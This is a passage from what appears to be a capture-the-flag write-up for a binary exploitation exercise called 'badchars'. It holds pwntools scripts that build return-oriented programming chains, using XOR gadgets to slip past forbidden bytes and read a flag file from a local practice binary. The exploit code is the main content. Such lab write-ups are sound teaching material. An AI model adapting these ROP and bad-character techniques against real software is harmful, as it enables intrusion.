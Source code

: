 ```python
    if char == 'a':
        payload += p32(datasection + 0x2) # a value
    elif char == 'g':
        payload += p32(datasection + 0x3) # g value
    elif char == '.':
        payload += p32(datasection + 0x4) # . value
    elif char == 'x':
        payload += p32(datasection + 0x6) # x value
    payload += p32(xor_gadget)

payload += p32(call_print_file)
payload += p32(datasection)


print(payload)

##### SEND PAYLOAD AND GET FLAG #####

io = process()
io.sendlineafter('>', payload)
io.recvuntil('Thank you!\n')

#Get our flag!
flag = io.recv()
success(flag)

##### END #####
```

&nbsp;

## The 64 bit python script

```python
from pwn import *

##### SETUP & RUN #####

#Define the executable
exe = './badchars'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'

#delete corefiles after crash occurs
context.delete_corefiles = True

# run the elf
io = process()

##### FIND USEFUL ADDRESSES #####

# Locate the functions/strings we need - either do this manually or using pwntools

call_print_file = 0x0000000000400620
mov_qword_gadget = 0x0000000000400634
pop_rdi_gadget = 0x00000000004006a3
pop_r14_r15_gadget = 0x00000000004006a0
pop_r12_r13_r14_r15 = 0x000000000040069c
datasection = 0x0000000000601030
flagtxtstr = 0x743374652c2a6c66
```